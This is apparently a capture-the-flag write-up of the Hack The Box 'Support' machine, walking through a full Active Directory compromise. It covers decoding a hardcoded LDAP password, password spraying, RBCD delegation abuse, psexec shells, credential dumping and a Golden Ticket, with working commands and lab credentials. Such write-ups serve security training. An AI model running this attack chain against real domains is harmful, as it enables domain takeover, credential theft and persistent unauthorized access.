## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt support.htb
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-07-31 01:37:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-time: 
|   date: 2022-07-31T01:38:00
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

```

### SMB

```bash
smbclient -N -L //support.htb
```

  

```bash
smbclient -N //support.htb/support-tools
```

  

### Source Code Analysis

The `UserInfo.exe.zip` file looks interesting. We can download it and analyse it using `dotPeek`.

If we look at the `UserInfo.Services` method we can `LdapQuery` function.

  

Opening it in `dotPeek` we can see a `Protected` class with an encrypted password.

  

Let's create a quick `C#` project and decode the password. I'll be using a `Console Application` project.

```csharp
using System;
using System.Text;

Console.WriteLine(UserInfo.Services.Protected.getPassword());

namespace UserInfo.Services
{
    internal class Protected
    {
        private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
        private static byte[] key = Encoding.ASCII.GetBytes("armando");

        public static string getPassword()
        {
            byte[] numArray = Convert.FromBase64String(Protected.enc_password);
            byte[] bytes = numArray;
            for (int index = 0; index < numArray.Length; ++index)
                bytes[index] = (byte)((int)numArray[index] ^ (int)Protected.key[index % Protected.key.Length] ^ 223);
            return Encoding.Default.GetString(bytes);
        }
    }
}
```

  

If we run the code we get an output.

  

```text
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### LDAP

Now we can perform LDAP queries with these credentials.

```bash
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"
```

  

After looking through the LDAP output we find an `info` attribute on the `support` user which contains a password.

```bash
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" | grep -i info
```

```text
Ironside47pleasure40Watchful
```

  

Create a list of users to password spray.

```bash
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" | grep name: | cut -d ":" -f 2 > ldap_users.txt
```

  

## Inital Access

### Password Spraying

Now that we have credentials and a list of users we can use `crackmapexec` to password spray.

```bash
crackmapexec winrm support.htb -u ldap_users.txt -p 'Ironside47pleasure40Watchful'
```

We found working credentials with the user `support`.

  

### WinRM Shell

Let's login using `evil-winrm`.

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

### Bloodhound

  

Let's use `Bloodhound` to enumerate the domain. First we need to export domain information that we can import into `Bloodhound`.

I'll be using [bloodhound.py](https://github.com/fox-it/BloodHound.py.git).

```bash
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py

python bloodhound.py -c All -u support -p 'Ironside47pleasure40Watchful' -d support.htb -dc dc.support.htb -ns 10.129.136.209
```

If we show the `Shortest Paths to High Value Targets` we get the follwing.

  

The members of the group `ACCOUNT OPERATORS@SUPPORT.HTB` have `GenericAll` privileges to the user `SUPPORT@SUPPORT.HTB`.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

## Privilege Escalation

Let's upload and import `PowerView` to help us enumerate.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
python3 -m http.server
```

```powershell
certutil -urlcache -split -f http://10.10.16.11/PowerView.ps1 PowerView.ps1
Import-Module .\PowerView.ps1
```

### Enumeration

Since we have full control we can use Kerberos Resource-based Constrained Delegation Computer Object Takeover to impersonate and authenticate as any domain user allowing us to takeover the domain.

```powershell
Get-DomainObject -Identity "DC=support,DC=htb" -Domain support.htb
```

  

To perform this attack we cannot have the `msds-allowedtoactonbehalfofotheridentity` attribute set, we can check this using the following.

```powershell
Get-NetComputer DC | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

The attack also requires the DC to have at least Windows Server 2012 installed, we can check this using `Get-DomainController | Select-Object -Property OSVersion`.

  

Looks like we're good to perform this attack. We first need to upload and import `Powermad`.

  

```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
python3 -m http.server 80
```

```powershell
certutil -urlcache -split -f http://10.10.16.11/Powermad.ps1 Powermad.ps1
Import-Module .\Powermad.ps1
```

### Preparing Attack

Now we can create a computer account.

```powershell
$Password = ConvertTo-SecureString 'password123' -AsPlainText -Force
New-MachineAccount -MachineAccount FAKE01 -Password $Password -Verbose
```

  

Let's take note of `FAKE01`'s SID.

```powershell
Get-DomainComputer FAKE01 | Select-Object objectsid
```

```text
S-1-5-21-1677581083-3380853377-188903654-5601
```

Now we need to create a new raw security descriptor for the `FAKE01` computer principal.

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5601)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

Next we need to modify the target computer AD object by applying the security descriptor bytes to the `DC` machine.

```powershell
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

  

We can check to make sure this worked using the following command.

```powershell
Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

  

### Executing Attack

I tried `Rubeus` without prevail so instead I'm using the much simpler route of `Impacket`.

```bash
impacket-getST support.htb/fake01:password123 -dc-ip dc.support.htb -impersonate Administrator -spn www/dc.support.htb
```

  

```bash
export KRB5CCNAME=Administrator.ccache
```

Finally we can use `psexec` to get an Administrator shell.

```bash
impacket-psexec support.htb/Administrator@dc.support.htb -k -no-pass
```

  

### Proof

```powershell
cat root.txt; ipconfig
```

  

## Post Exploitation

### Dump SAM/LSA

```bash
impacket-secretsdump support.htb/Administrator@dc.support.htb -k -no-pass
```

  

### Persistence - Golden Ticket

First we need to get the domain SID.

```bash
impacket-lookupsid support.htb/Administrator@dc.support.htb -hashes :bb06cbc02b39abeddd1335bc30b19e26
```

  

```text
S-1-5-21-1677581083-3380853377-188903654
```

To generate our Golden Ticket we need to use the NT hash of the `krbgt` user. We can get this from the `secretsdump` we just performed.

```text
6303be52e22950b5bcb764ff2b233302
```

```bash
impacket-ticketer -nthash 6303be52e22950b5bcb764ff2b233302 -domain-sid S-1-5-21-1677581083-3380853377-188903654 -domain support.htb Administrator
```

  

```bash
export KRB5CCNAME=Administrator.ccache
```

Now we can use the ticket to get a shell via `psexec` like before.

```bash
impacket-psexec support.htb/Administrator@dc.support.htb -k -no-pass
```

  